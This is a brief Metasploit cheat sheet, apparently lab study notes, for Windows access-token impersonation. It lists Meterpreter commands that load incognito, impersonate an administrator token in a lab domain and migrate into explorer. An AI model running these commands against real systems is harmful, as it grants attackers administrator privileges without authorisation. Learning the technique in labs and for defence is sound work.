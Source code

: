 # Access Token Impersonation (Metasploit)

meterpreter

```bash
getprivs #see if u have SeImpersonatePrivilege
load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\\Administrator"
getuid
pgrep explorer
migrate 1234
```
